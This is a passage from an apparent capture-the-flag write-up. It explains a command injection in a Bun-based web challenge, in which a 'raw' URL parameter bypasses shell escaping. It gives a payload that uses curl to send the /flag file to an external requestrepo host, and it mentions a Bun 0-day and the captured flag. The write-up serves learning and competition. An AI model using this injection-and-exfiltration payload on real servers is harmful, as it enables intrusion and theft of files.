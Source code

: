 ```js
            await $`echo $(date '+%Y-%m-%dT%H:%M:%S%z') - ${params.url} ::: ${JSON.stringify(counts)} >> ${logFile}`;

            const highlighted = escapeHTML(rawFetched)
                .replace(/LINE/g, "<mark style='color: #06C755'>$&</mark>")
                .replace(/Yahoo!/g, "<mark style='color: #FF0033'>$&</mark>");
            const html = `
                <h1>Your score is... 🐐<${counts.L + counts.Y}</h1>
                <details open>
                    <summary>Result</summary>
                    <blockquote>${highlighted}</blockquote>            
                </details>
            `;
            return new Response(html, {headers: {"Content-Type": "text/html; charset=utf-8"}});
        } else {
            return new Response("🎶😺≡≡≡😺🎶 Happy Happy Happy~")
        }
    }
});

console.log(`😺 on http://localhost:${server.port}`);
```

The goal is to read `/flag`. One imporant thing to consider is that the server is using Bun, which has a custom implementation for shell commands. 

The **intended** solution is to create an object that has a `raw` attribute, which will bypass Bun's shell command escaping. We can do that by creating a URL that has a `raw` attribute, and then exfil the flag using `curl`. The final payload will look like:
```
http://34.146.180.210:3000/chall?url[raw]=$(curl 06sjnkhn.requestrepo.com -F=@/flag)
```

However, we found an **unintended** solution, which turned out to be a Bun 0-day :). ~~I will update the write-up once the vulnerability is patched.~~ You can read the poc in this write-up, as the same idea was used in HITCON CTF 2024: https://xz.aliyun.com/t/15130?time__1311=GqjxuQD%3Deewxl2%2BGkQDObQF84fO4DuWmD&u_atoken=960e90152eea3d0d255d7bcd7dc2c1f2&u_asig=0a472f8317324115276187210e006f

We also found a 0-day bug in [escapeHTML](https://bun.sh/blog/bun-v1.0.36#fixed-crash-using-bun-escapehtml), which could've been used to DoS the server.

**LINECTF{db37c207abbc5f2863be4667129f70e0}**

<a name="heritage"></a>
## Heritage (233 pts, 15 solves) - Web

Description:
```
http://35.200.117.55:20080/
```

Cool challenge written in Java with Spring. We are given an internal app and a gateway that will proxy our requests to the internal app.
